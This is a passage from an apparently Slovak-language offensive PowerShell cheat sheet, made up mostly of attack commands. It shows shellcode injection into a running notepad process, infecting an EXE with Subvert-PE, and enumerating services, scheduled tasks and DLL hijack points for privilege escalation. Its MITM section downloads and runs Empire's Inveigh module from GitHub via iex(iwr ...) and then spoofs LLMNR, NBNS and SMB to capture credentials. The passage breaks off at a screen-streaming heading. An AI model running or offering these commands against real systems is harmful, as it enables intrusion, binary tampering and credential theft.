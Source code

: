 <pre class="lang:ps decode:true">notepad
$target = Get-Process notepad
Invoke-ShellCode -Force -ProcessID $target.Id</pre>

### Zavírovanie EXE súborov

[Subver-PE](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Subvert-PE.ps1)

<pre class="lang:ps decode:true"># Príklad:
Subvert-PE -Path 'C:\Program Files\Notepad++\notepad++.exe' -Write</pre>

### Eskalácia oprávnení

<pre class="lang:ps decode:true"># returns services with unquoted paths that&nbsp;also have a&nbsp;space in&nbsp;the&nbsp;name
Get-ServiceUnquoted

# returns services where&nbsp;the&nbsp;current user can write to&nbsp;the service binary path or&nbsp;its config
Get-ModifiableServiceFile

# returns services the&nbsp;current user can modify
Get-ModifiableService

# find schtasks with modifiable target files
Get-ModifiableScheduledTaskFile

# checks for&nbsp;any modifiable binaries/scripts (or their configs) in&nbsp;HKLM autoruns
Get-ModifiableRegistryAutoRun

# finds potential DLL hijacking opportunities for&nbsp;currently running processes
Find-ProcessDLLHijack</pre>

[What is&nbsp;DLL hijacking?](https://stackoverflow.com/questions/3623490/what-is-dll-hijacking)

### MITM útok

<pre class="lang:ps decode:true">iex(iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Invoke-Inveigh.ps1')

Invoke-Inveigh -ConsoleOutput Y -LLMNR Y -HTTP Y -HTTPS Y -SMB Y -NBNS Y -MachineAccounts Y -StatusOutput Y

Stop-Inveigh</pre>

### Stream obrazovky
